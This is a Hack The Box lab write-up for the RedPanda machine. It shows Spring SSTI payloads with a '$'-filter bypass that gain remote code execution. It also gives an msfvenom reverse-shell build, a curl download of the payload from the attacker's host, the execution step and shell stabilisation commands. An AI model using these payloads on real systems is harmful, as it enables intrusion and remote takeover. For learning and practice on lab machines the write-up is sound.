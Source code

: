 ```yaml
---
title: HTB - RedPanda | SSTI case study
date: 2022-09-05
draft: true
description: RedPanda Hack The Box Writeup/Walkthrough
tags: ["HTB", "ctf", "writeup", "SSTI", "Java"]
categories: ["Hack the Box"]
summary: RedPanda is an easy rated Linux machine that has an interesting path to user involving a Server Side Template Injection (SSTI) vulnerability.
---
```


RedPanda is an easy rated Linux machine that has an interesting path to user involving a Server Side Template Injection (SSTI) vulnerability.
It took me a while to figure out how to exploit the vulnerability, so I'm sharing here the steps I followed in order to obtain a low privileged reverse shell. 

The privilege escalation vector will not be part of this article as I found it to be a little contrived for my taste.


{{< badge >}}
New article!
{{< /badge >}}

![HTB_logo](/img/htb/redpanda/logo.png)

   Name | OpenSource
--------|------
    OS  | Linux
  Difficulty | Easy [20 points]


# Recon
Nmap shows the following open ports:
````
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; 
8080/tcp open  http-proxy
````

Visiting port 8080 we are presented with a web application providing a simple search functionality.

![HTB_redpanda_homepage](/img/htb/redpanda/homepage.png)

A quick "test" search shows that the input text gets reflected in the web page.

![HTB_redpanda_testsearch](/img/htb/redpanda/test_search.png)

While a search without text seems to trigger a default search for the input "Greg", giving us a hint about a probable injection vulnerability.

![HTB_redpanda_search](/img/htb/redpanda/empty_search.png)

SQL Injection was my fisrt choice but after several failed attempts I went lucky with **SSTI** (Server Side Template Injection).

### SSTI (Server Side Template Injection)
First of all, what is a template engine?

> A template engine enables you to use static template files in your application. At runtime, the template engine replaces variables in a template file with actual values, and transforms the template into an HTML file sent to the client. This approach makes it easier to design an HTML page.

> When you build a server-side application with a template engine, the template engine replaces the variables in a template file with actual values, and displays this value to the client. This makes it easier to quickly build our application.


A Template Injection vulnerability occurs when user input is embedded in a template in an unsafe manner and a malicious user is able to directly attack web server internals or obtain RCE. 

A very good resource on the topic is provided [here](https://portswigger.net/research/server-side-template-injection) by Port Swigger.

As the artcile suggests, first of all we have to identify the underlying technology. In our case, visiting the homepage source code, it is possible to discover that the application is built with **Spring**.

![HTB_redpanda_spring](/img/htb/redpanda/spring_boot.png)


Searching on google for "Spring Boot SSTI", there is (among many others) [this](https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/) article explaining how to exploit the same vulnerabilty on *Thymeleaf*, another Java template engine.

Let's try with a simple SSTI payload and check how the web application responds.

We start with: `${{20*2}}`

![HTB_redpanda_blockedchar](/img/htb/redpanda/blocked_char.png)

The `$` character seems to be filtered. 

Trying with: `#{{20*2}}`, we do have a different response but the input is not being processed as we expect. 

![HTB_redpanda_ssti_#](/img/htb/redpanda/ssti_payload_1.png)

With`*{{20*2}}` we do have the response we are expecting.

![HTB_redpanda_ssti_*](/img/htb/redpanda/ssti_payload_2.png)

Now that we have identified the way to abuse the vulnerabiltity we have to understand how to obtain an RCE.

[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection) has a nice list of SSTI vectors based on the webserver technology. 

In the Java section there is the following payload that can be useful to read `/etc/passwd`.

````
${T(java.lang.Runtime).getRuntime().exec('cat /etc/passwd')}
````
We know that in our case the `$` character is blocked, so we need to replace that with `*`. Also we want to change the command to execute and try to ping our attacking machine:

````
*{T(java.lang.Runtime).getRuntime().exec('ping 10.10.16.44')}
````
Running `tcpdump` on our machine we can see the traffic coming from the target.

````
> sudo tcpdump -i tun0

tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
21:02:40.109836 IP 10.10.16.44.44470 > 10.10.11.170.http-alt: Flags [S], seq 3013405788, win 64240, options [mss 1460,sackOK,TS val 415009260 ecr 0,nop,wscale 7], length 0
21:02:40.154621 IP 10.10.11.170.http-alt > 10.10.16.44.44470: Flags [S.], seq 1530025971, ack 3013405789, win 65160, options [mss 1335,sackOK,TS val 485292072 ecr 415009260,nop,wscale 7], length 0
21:02:40.154667 IP 10.10.16.44.44470 > 10.10.11.170.http-alt: Flags [.], ack 1, win 502, options [nop,nop,TS val 415009305 ecr 485292072], length 0
21:02:40.155400 IP 10.10.16.44.44470 > 10.10.11.170.http-alt: Flags [P.], seq 1:575, ack 1, win 502, options [nop,nop,TS val 415009306 ecr 485292072], length 574: HTTP: POST /search HTTP/1.1
21:02:40.242601 IP 10.10.11.170.http-alt > 10.10.16.44.44470: Flags [.], ack 575, win 505, options [nop,nop,TS val 485292161 ecr 415009306], length 0
21:02:40.326177 IP 10.10.11.170.http-alt > 10.10.16.44.44470: Flags [P.], seq 1:947, ack 575, win 505, options [nop,nop,TS val 485292203 ecr 415009306], length 946: HTTP: HTTP/1.1 200 
21:02:40.326201 IP 10.10.16.44.44470 > 10.10.11.170.http-alt: Flags [.], ack 947, win 501, options [nop,nop,TS val 415009477 ecr 485292203], length 0
21:02:40.326254 IP 10.10.11.170.http-alt > 10.10.16.44.44470: Flags [P.], seq 947:952, ack 575, win 505, options [nop,nop,TS val 485292203 ecr 415009306], length 5: HTTP
21:02:40.326258 IP 10.10.16.44.44470 > 10.10.11.170.http-alt: Flags [.], ack 952, win 501, options [nop,nop,TS val 415009477 ecr 485292203], length 0
21:02:40.326263 IP 10.10.11.170.http-alt > 10.10.16.44.44470: Flags [F.], seq 952, ack 575, win 505, options [nop,nop,TS val 485292203 ecr 415009306], length 0
21:02:40.326270 IP 10.10.11.170 > 10.10.16.44: ICMP echo request, id 2, seq 1, length 64
21:02:40.326333 IP 10.10.16.44 > 10.10.11.170: ICMP echo reply, id 2, seq 1, length 64
21:02:40.329018 IP 10.10.16.44.44470 > 10.10.11.170.http-alt: Flags [F.], seq 575, ack 953, win 501, options [nop,nop,TS val 415009480 ecr 485292203], length 0
21:02:40.456829 IP 10.10.11.170.http-alt > 10.10.16.44.44470: Flags [.], ack 576, win 505, options [nop,nop,TS val 485292375 ecr 415009480], length 0
21:02:41.288405 IP 10.10.11.170 > 10.10.16.44: ICMP echo request, id 2, seq 2, length 64
21:02:41.288432 IP 10.10.16.44 > 10.10.11.170: ICMP echo reply, id 2, seq 2, length 64
21:02:42.289360 IP 10.10.11.170 > 10.10.16.44: ICMP echo request, id 2, seq 3, length 64
21:02:42.289373 IP 10.10.16.44 > 10.10.11.170: ICMP echo reply, id 2, seq 3, length 64
21:02:43.290553 IP 10.10.11.170 > 10.10.16.44: ICMP echo request, id 2, seq 4, length 64
21:02:43.290566 IP 10.10.16.44 > 10.10.11.170: ICMP echo reply, id 2, seq 4, length 64
21:02:44.293154 IP 10.10.11.170 > 10.10.16.44: ICMP echo request, id 2, seq 5, length 64
21:02:44.293182 IP 10.10.16.44 > 10.10.11.170: ICMP echo reply, id 2, seq 5, length 64
````
This confirms that we have RCE!

At this point this will be the plan:
  1. create a msfvenom payload for the target machine
  2. upload the payload on the target
  3. start a listener on our machine
  4. start the reverse shell
  
To create the msfvenom payload:

````
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.16.44 LPORT=4444 -f elf > rev.elf
````
This will create a reverse shell on our machine named `rev.elf`.

To pass it over to the target machine we first start a Python server on our machine in the same directory where the payload resides. Then, to download it on target via SSTI, we launch:

````
*{T(java.lang.Runtime).getRuntime().exec('curl http://10.10.16.44:8888/rev.elf -o rev.elf')}
````

Our Python server will log a successful request:
````
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
10.10.11.170 - - [05/Sep/2022 21:17:16] "GET /rev.elf HTTP/1.1" 200 -
````


We change the payload permissions:
````
*{T(java.lang.Runtime).getRuntime().exec('chmod 777 ./rev.elf')}
````

And finally we launch it, after having set up a `nc` listener on our machine:
````
*{T(java.lang.Runtime).getRuntime().exec('./rev.elf')}
````

And here is our user shell!

````
connect to [10.10.16.44] from (UNKNOWN) [10.10.11.170] 49434
id
uid=1000(woodenk) gid=1001(logs) groups=1001(logs),1000(woodenk)
whoami
woodenk
````

The shell can be stabilized as always:
````
python3 -c 'import pty;pty.spawn("/bin/bash")
export TERM=xterm
CTRL+z to background the current shell
stty raw -echo; fg
````
